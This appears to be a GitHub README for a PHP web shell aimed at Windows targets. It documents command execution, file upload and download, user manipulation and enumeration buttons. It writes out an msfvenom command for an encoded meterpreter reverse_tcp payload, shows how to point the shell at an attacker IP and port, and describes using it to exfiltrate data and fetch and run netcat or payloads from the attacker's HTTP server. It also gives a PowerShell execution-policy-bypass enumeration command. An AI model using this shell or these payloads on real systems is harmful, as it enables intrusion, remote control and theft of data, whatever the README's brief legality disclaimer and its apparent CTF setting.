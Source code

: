 <h1> The Not-So Simple PHP Command Shell</h1>
<img src="/img/nsscmdshell.png" />
<p>Automates many on target functions. Designed for windows targets. It isn't pretty, but it works as intended. I have included an assortment of common windows enumeration and escalation tools.  To generate your own msfvenom payload:<br> 
venom.exe : <code>sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=(ATTACKBOXIP) LPORT=(ATTACBOXPORT) -e x64/shikata_ga_nai -f exe -o venom.exe</code>
</p>

<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshelluse.gif" />
<h2>Automates or simplifies many on target enumeration functions. Including:</h2>
<ul>
<li>Simple system commands</li>
<li>File upload/download options</li>
<li>simple user manipulations (on compatible targets with sufficient privileges)</li>
<li>One click user info/ user permissions info</li>
<li>One click systeminfo</li>
<li>One Click processes list</li>
<li>And many more...</li>
</ul>

<h2>How to use it</h2>
<p>First, change the variables, "$attackip" and "$attackport" to the appropriate values for YOUR attack machine:</p>
<code>$attackip = "10.0.2.6";</code><br>
<code>$attackport = "8000";</code>

<p>Next, upload the nsscmdshell.php file to the target. Please note that gaining access to the target is beyond the scope of this writing and your responsibility to establish in a manner consistent with established law.  This tool is intended to be used for on target enumeration to gather and exfiltrate information and then to upload and execute tools such as netcat or msvenom payload for further access to the target. </p>

<p>Once the nsscmdshell is uploaded, typing valid commands into the command input or clicking the various cmd buttons will display the results in a windows command prompt style below the nsscmdshell interface.</p>
<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-output.png" />
<p>The upload and download options are self explanatory, but just to avoid any confusion: <br><br>
If using the select field, choose your file and click "upload". files linked in the select field options need to be present at the web root&sup;1 at the ip address and port in lines 10 and 11 of nsscmdshell.php. <br>
If using the open file dialog option, only files present at the ip address and port specified can be uploaded. <br>
For the download option, simply enter the filename to be downloaded from the working directory of the target machine. Please note that files which can be managed by your browser will be opened in your browser - i.e., entering a text or html file to be downloaded will instead open the file in the web browser.<br>   
Example usage: run jaws-enum.ps1 - output to jaws.txt <code>powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename jaws.txt</code>, then download the output file to your attack machine for later close examination.<br><br>

<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-jaws.png" />
</p>
<p>The quick command buttons each have a title attribute with a brief description of the function - hover over the button to see the description.<br>

<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-title-desc.png" /><br>

It goes without saying that the effectiveness of the various functions depends on the target os's support of the functions and the current user's permissions. This was designed for and tested on Windows XP - Windows 8.1 with very limited testing on Win10.</p> 
&sub;1 I generally cd into my "windowstools" folder and start a simple http server:<br>
<code>cd windowstools</code><br>
<code>python3 -m http.server 8000</code>.<br>

<img src="https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-listening.png" />

*** Got "Warning: file_get_contents(http://XX.XX.XX.XX:XXXX/filename.ext):failed to open stream: No connetion could be made...." error? 
 Two possible causes:</p>
 <ol>
 <li> You didn't set the variables, <code>$attackip</code> and <code>$attackport</code> to your machine. Fix: ifconfig your ip, and set in nsscmdshell.php lines 10 and 11.</li> 
 <li> The files are not available on the defined server or port, or there is no server running on the defined port. Fix: <code>python3 -m http.server XXXX</code> in a directory containing the files you're attempting to upload.</li>
 </ol>
<p style="text-align:center;"><img src="http://www.hackthebox.eu/badge/image/476578" alt="KaotickJ at Hack The Box" /></p>